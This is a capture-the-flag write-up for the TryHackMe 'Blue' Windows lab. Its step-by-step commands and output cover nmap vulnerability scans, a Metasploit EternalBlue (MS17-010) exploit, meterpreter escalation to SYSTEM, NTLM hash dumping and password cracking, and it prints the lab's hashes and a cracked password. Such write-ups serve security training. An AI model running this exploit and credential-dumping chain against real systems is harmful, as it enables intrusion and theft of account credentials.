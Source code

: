 # TryHackMe Blue test

Here is how I solved the Blue test on [TryHackMe](https://tryhackme.com/room/blue), where your goal is to hack a Windows machine, find the passwords for the admins and get the 3 flags hidden in the system.

## Testing ports and vulnerabilities

Initial scan done on `scans/initial.nmap`.
`$ nmap -sC -sV -oN initial.nmap 10.10.60.209`

*Complete scan done with vulscan on `scans/vulscan.nmap`.
`$ nmap -sC -sV --script=vulscan/vulscan.nse -oN vulscan.nmap 10.10.60.209`

*Found vulnerability ms12-020 on port 3389 on `scans/ms12-020.nmap`.
`$nmap -sV --script=rdp-vuln-ms12-020 -oN ms12-020.nmap -p 3389 10.10.60.209`

*Found vulnerability ms17-010 on port 445 on `scans/smb-vuln`, which will be used on this test.
`$nmap -sV --script smb-vuln* -oN smb-vuln.nmap -p 445 10.10.60.209`

## Abusing vulnerabilities
Found metasploit exploits on [SMB Penetration Testing (Port 445)](https://www.hackingarticles.in/smb-penetration-testing-port-445/)

Use the exploit to create a session with the machine
```sh
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.60.209
rhost => 10.10.60.209
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
After session created, pressed ctrl+z to minimize the session and converted the shell to meterpreter shell with:
```sh
sf5 exploit(multi/samba/usermap_script) > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf5 post(multi/manage/shell_to_meterpreter) > exploit
```
Select the new session created to use.
`msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 3`

Check the system info.
```sh
meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```
 
Open a shell and check if we have the permissions.
```sh
meterpreter > shell
Process 768 created.
Channel 3 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Find a running process running on the `NT AUTHORITY\SYSTEM` user and migrate to it.
```sh
meterpreter > ps
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 1292  1284  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe

...

meterpreter > migrate 1292
[*] Migrating from 2568 to 1292...
[*] Migration completed successfully.
```

Find the users on the machine and their passwords.
```sh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
``` 

Use `hashdump` to dump the hashes.
```sh
msf5 exploit(multi/manage/shell_to_meterpreter) > use post/windows/gather/hashdump
msf5 post(windows/gather/hashdump) > set SESSION 4
SESSION => 4
msf5 post(windows/gather/hashdump) > run

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

Jon:"Nah boi, I ain't sharing nutting with you"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


[*] Post module execution completed
```

Check the credentials on the local database
```sh
msf5 post(windows/gather/hashdump) > creds
Credentials
===========

host          origin        service        public         private                                                            realm  private_type  JtR Format
----          ------        -------        ------         -------                                                            -----  ------------  ----------
10.10.60.209  10.10.60.209  445/tcp (smb)  administrator  aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash     nt,lm
10.10.60.209  10.10.60.209  445/tcp (smb)  guest          aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash     nt,lm
10.10.60.209  10.10.60.209  445/tcp (smb)  jon            aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d         NTLM hash     nt,lm
```
Use John the Reaper to crack the passwords with the rockyou.txt wordlist.
```sh
msf5 post(windows/gather/hashdump) > useauxiliary/analyze/crack_windows
msf5 auxiliary(analyze/crack_windows) > set CUSTOM_WORDLIST /opt/pwdlist/rockyou.txt
CUSTOM_WORDLIST => /opt/pwdlist/rockyou.txt
msf5 auxiliary(analyze/crack_windows) > run
...
[+] Cracked Hashes
==============

 DB ID  Hash Type  Username  Cracked Password  Method
 -----  ---------  --------  ----------------  ------
 3      nt         jon       alqfna22          Single

[*] Auxiliary module execution completed
```

## Finding the flags

As easy as it sounds, the flags are 3 text files that we need to read. To this I just run a simple search and `cat` the files to read it`s content.

```sh
meterpreter > search -f flag*.txt
```